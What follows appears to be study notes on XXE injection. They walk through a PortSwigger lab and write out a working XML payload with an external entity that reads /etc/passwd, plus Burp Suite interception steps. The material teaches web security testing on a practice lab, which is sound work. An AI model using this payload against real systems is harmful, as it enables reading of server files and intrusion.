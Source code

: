 XXE portswigger: https://portswigger.net/web-security/xxe

1) check is there an XML that is sent in Post request or in any other request
2) insert a DTD tag , followed by an entity(the entity is external)
eg for XML payload updated with the DTD tag and external entity:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&xxe;   // 
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
# 1)Lab: Exploiting XXE using external entities to retrieve files
Lab:https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files


This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

#### Solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.

lab video: https://www.youtube.com/watch?v=0DQnWalxYb4&ab_channel=Intigriti
- XML DTD :https://www.w3schools.com/xml/xml_dtd.asp